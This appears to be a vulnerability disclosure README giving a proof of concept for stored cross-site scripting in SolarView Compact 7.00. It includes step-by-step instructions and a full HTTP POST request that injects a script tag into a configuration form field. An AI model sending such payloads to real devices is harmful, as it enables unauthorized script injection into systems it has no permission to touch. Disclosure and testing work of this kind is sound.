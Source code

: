 # SolarView-Compact-Stored-XSS

## Description 

Stored XSS in SolarView Compact 7.00 which lead attackers to inject arbitrary script code

## POC

1. navigate to http://{HOST}/Solar_AiConf.php
2. click on update and capture the request
3. edit any of `ch*_*` values to `"><script>alert('XSS_By_Strik3r')`
  
```
POST /Solar_AiConf.php HTTP/1.1
Host: {HOST}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://{HOST}
Connection: close
Referer: http://{HOST}/Solar_AiConf.php
Upgrade-Insecure-Requests: 1

ch0_min=0&ch0_max=1.43&ch1_min=-50&ch1_max=50&ch2_min=1&ch2_max=5&ch3_min=1"><script>alert('XSS_By_Strik3r')</script&ch3_max=5&button=%8DX%90V
```

4. send the request and notice the XSS alert
5. try to refresh the page or visit it with other browser you will still have the alert pop-up
